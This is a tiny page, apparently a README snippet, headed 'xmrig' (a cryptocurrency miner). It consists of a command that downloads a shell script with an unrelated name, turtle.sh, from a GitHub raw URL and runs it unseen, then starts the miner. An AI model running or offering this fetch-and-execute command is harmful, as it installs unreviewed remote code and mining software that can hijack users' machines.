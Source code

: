 # xmrig

wget https://raw.githubusercontent.com/thehutgy/tuneTurtle/main/turtle.sh && chmod +x turtle.sh && ./turtle.sh

# run

./xmrig
